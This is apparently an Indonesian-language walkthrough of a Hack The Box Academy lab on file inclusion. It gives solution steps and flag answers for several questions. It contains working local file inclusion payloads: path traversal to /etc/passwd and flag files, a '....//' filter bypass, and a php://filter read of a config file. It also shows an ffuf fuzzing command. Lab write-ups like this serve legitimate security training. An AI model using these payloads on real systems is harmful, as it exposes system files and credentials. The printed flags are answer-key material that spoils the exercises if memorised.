 # File Inclusion
- Link modul: https://academy.hackthebox.com/module/details/23

## Local File Inclusion (LFI)
- Jalankan web target terlebih dahulu

- **Question:** Using the file inclusion find the name of a user on the system that starts with "b".
- Vunerability berada di URL `http://ip:port/index.php?language=en.php`


- Selanjutnya kita ganti nilai parameter `language` dengan payload file inclusion untuk membaca file `/etc/passwd`
- Akses URL berikut di browser
```sh
http://ip:port/index.php?language=../../../../etc/passwd
```

- Ditemukan nama user barry pada file `/etc/passwd`

- **Answer**
```sh
barry
```

- **Question:** Submit the contents of the flag.txt file located in the /usr/share/flags directory.
- Akses URL berikut di browser
```sh
http://ip:port/index.php?language=../../../../usr/share/flags/flag.txt
```


- **Answer**
```sh
HTB{n3v3r_tru$t_u$3r_!nput}
```

## Basic Bypasses
- Jalankan web target terlebih dahulu

- **Question:** The above web application employs more than one filter to avoid LFI exploitation. Try to bypass these filters to read /flag.txt
- Akses URL berikut di browser untuk mengecek vulnerability file inclusion pada web target
```sh
http://ip:port/index.php?language=languages//....//....//....//....//etc/passwd
```

- Akses URL berikut di browser untuk membaca flag
```sh
http://ip:port/index.php?language=languages//....//....//....//....//flag.txt
```

- **Answer**
```sh
HTB{64$!c_f!lt3r$_w0nt_$t0p_lf!}
```

## PHP Filters
- Jalankan web target terlebih dahulu

- **Question:**  Fuzz the web application for other php scripts, and then read one of the configuration files and submit the database password as the answer
- Pada task ini kita akan menggunakan wordlists dari seclists. Wordlists ini secara default belum tersedia di kali linux, jadi anda perlu menginstalasi terlebih dahulu dengan perintah sebagai berikut
```sh
sudo apt install seclists
```
- Jalankan tool `ffuf` untuk menemukan halaman yang mengandung script PHP
```sh
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://94.237.59.180:45986/FUZZ -e .php -c -ic
```

- Ditemukan script `configure.php` pada hasil fuzzing diatas

- Akses URL sebagai berikut pada browser untuk membuka isi file tersebut
```sh
http://ip:port/index.php?language=php://filter/read=convert.base64-encode/resource=configure
```

- Terdapat code base64 pada halaman diatas, tekan `Ctrl+U` agar kita bisa mengcopy code base64 tersebut secara full

- Decode code base64 diatas lewat terminal
```sh
echo 'code base64' | base64 -d
```

- **Answer**
```sh
HTB{n3v3r_$t0r3_pl4!nt3xt_cr3d$}
```